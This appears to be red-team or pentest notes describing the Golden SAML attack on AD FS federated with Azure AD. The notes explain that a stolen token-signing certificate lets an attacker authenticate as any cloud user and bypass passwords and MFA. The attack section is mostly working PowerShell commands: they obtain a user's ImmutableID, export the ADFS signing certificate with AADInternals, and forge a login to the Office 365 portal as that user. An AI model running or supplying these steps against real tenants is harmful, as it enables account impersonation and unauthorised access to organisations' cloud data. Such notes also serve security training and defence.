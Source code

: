 




**ADFS**

AD FS is a claims-based identity model

- A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
- The ImmuatbleID is stored on-prem as *`ms-DS-ConsistencyGuid`* for the user and/or can be derived from the GUID of the user.

##### Abuse

In ADFS, the SAML Response is signed by a token-signing certificate. 

- If this certificate is compromised, it becomes possible to authenticate to Azure AD as any user within Azure AD. 
- Similar to our PTA abuse scenario, actions such as password changes for a user or MFA won't have any effect because we're forging the authentication response. 
- The certificate can be extracted from the ADFS server with DA privileges and subsequently used from any internet-connected machine. 

> This is the essence of the Golden SAML attack.

[Golden SAML](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)


**On-Prem to Cloud**

From any on-prem machine as a normal domain user, get the ImmutableID of the target user:
```powershell
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

On AD FS server (as administrator):
```powershell
Get-AdfsProperties | select identifier
```

Check the IssuerURI from Azure AD too (Use MSOL module and need GA privileges):
```powershell
Get-MsolDomainFederationSettings -DomainName domain.com | select IssuerUri
```

> [Note] When setting up the AD FS using Azure AD Connect, there is a difference between IssuerURI on the ADFS server and Azure AD. Use the one from Azure AD.


With DA privileges on-prem, we can extract the ADFS token signing certificate from the ADFS server using AADInternals:
```powershell
Export-AADIntADFSSigningCertificate
```

Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified:
```powershell
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://domain.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
